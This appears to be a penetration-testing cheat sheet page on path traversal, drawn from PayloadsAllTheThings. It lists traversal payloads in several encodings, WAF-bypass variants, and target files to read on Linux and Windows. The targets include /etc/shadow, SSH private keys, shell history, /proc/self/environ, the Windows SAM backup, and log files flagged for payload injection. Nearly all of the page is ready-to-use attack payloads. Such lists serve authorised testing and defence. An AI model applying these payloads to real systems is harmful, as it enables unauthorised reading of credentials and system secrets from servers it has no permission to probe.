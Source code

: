 ```yaml
---
icon: slash-forward
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Path Traversal

## Basic Payloads

```javascript
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

## Bypasses

```bash
# If WAF removing "../"
..././
...\.\
..;/

# Double URL encoding
. = %252e
/ = %252f
\ = %255c
```

## Interesting Files

### Linux

Interesting files:

*   Operating System and Informations

    ```
    /etc/issue
    /etc/group
    /etc/hosts
    /etc/motd
    ```
*   Processes

    ```
    /proc/[0-9]*/fd/[0-9]*   # first number is the PID, second is the filedescriptor
    /proc/self/environ
    /proc/version
    /proc/cmdline
    /proc/sched_debug
    /proc/mounts
    ```
*   Network

    ```
    /proc/net/arp
    /proc/net/route
    /proc/net/tcp
    /proc/net/udp
    ```
*   Current Path

    ```
    /proc/self/cwd/index.php
    /proc/self/cwd/main.py
    ```
*   Indexing

    ```
    /var/lib/mlocate/mlocate.db
    /var/lib/plocate/plocate.db
    /var/lib/mlocate.db
    ```
*   Credentials and history

    ```
    /etc/passwd
    /etc/shadow
    /home/$USER/.bash_history
    /home/$USER/.ssh/id_rsa
    /etc/mysql/my.cnf
    ```
*   Possible payload injectable files:\


    ```
    /var/log/apache/access.log
    /var/log/apache/error.log
    /var/log/httpd/error_log
    /usr/local/apache/log/error_log
    /usr/local/apache2/log/error_log
    /var/log/nginx/access.log
    /var/log/nginx/error.log
    /var/log/vsftpd.log
    /var/log/sshd.log
    /var/log/mail
    ```

### Windows

Interesting files:

```bash
# Always existing files in recent Windows
c:\windows\system32\license.rtf
c:\windows\system32\eula.txt
C:\Windows\win.ini

c:/boot.ini
c:/inetpub/logs/logfiles
c:/inetpub/wwwroot/global.asa
c:/inetpub/wwwroot/index.asp
c:/inetpub/wwwroot/web.config
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system32/inetsrv/metabase.xml
c:/sysprep.inf
c:/sysprep.xml
c:/sysprep/sysprep.inf
c:/sysprep/sysprep.xml
c:/system volume information/wpsettings.dat
c:/system32/inetsrv/metabase.xml
c:/unattend.txt
c:/unattend.xml
c:/unattended.txt
c:/unattended.xml
c:/windows/repair/sam
c:/windows/repair/system
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)\

